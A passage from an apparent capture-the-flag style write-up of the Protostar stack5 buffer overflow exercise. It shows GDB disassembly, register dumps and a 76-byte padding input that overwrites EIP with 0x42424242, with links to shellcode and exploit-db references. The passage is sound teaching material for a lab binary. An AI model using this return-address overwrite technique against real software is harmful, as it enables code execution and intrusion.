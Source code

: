 We open up the `stack5` binary in GDB.

```shell
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   %ebp
0x080483c5 <main+1>:    mov    %esp,%ebp
0x080483c7 <main+3>:    and    $0xfffffff0,%esp
0x080483ca <main+6>:    sub    $0x50,%esp
0x080483cd <main+9>:    lea    0x10(%esp),%eax
0x080483d1 <main+13>:   mov    %eax,(%esp)
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.

(gdb) info reg
eax            0xbffff740       -1073744064
ecx            0xbffff740       -1073744064
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff730       0xbffff730
ebp            0xbffff788       0xbffff788
esi            0x0      0
edi            0x0      0
eip            0x80483d9        0x80483d9 <main+21>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

We see that the disassembly and relevant register values are exactly the same
as the previous levels. Reusing the calculations from before, we know that
`buffer` starts at `$esp + 0x10` and that we need to write 76 bytes + the
4 bytes we want `$eip` to be at after the `ret` instruction.

```shell
(gdb) run
Starting program: /opt/protostar/bin/stack5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) info reg
eax            0xbffff740       -1073744064
ecx            0xbffff740       -1073744064
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff790       0xbffff790
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0x42424242       0x42424242
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```


[exploit-exercises]: https://exploit-exercises.com
[nebula-writeup]: 2018-01-01-nebula-walkthrough
[wikipedia-endianness]: https://en.wikipedia.org/wiki/Endianness
[wikipedia-shellcode]: https://en.wikipedia.org/wiki/Shellcode
[exploit-db-13357]: https://www.exploit-db.com/exploits/13357/